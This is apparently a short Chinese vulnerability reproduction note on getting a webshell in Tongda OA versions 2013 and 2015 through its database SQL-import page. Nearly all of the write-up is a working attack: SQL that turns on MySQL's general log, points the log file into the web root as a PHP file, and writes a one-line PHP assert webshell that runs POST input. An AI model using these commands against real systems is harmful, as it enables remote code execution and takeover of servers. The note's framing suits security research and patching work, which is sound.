 通达oa 数据库脚本导⼊getshell
=============================

一、漏洞简介
------------

二、漏洞影响
------------

2013、2015版本

三、复现过程
------------

⾥面的database⻚面可以导入sql脚本文件,但是系统过滤了很多,有很多的限制,使⽤mysql日志的方式进行
突破。

    set global general_log = on;
    set global general_log_file = '../webroot/test.php';
    select '<?php assert($_POST[a]) ?>';
    set global general_log = off
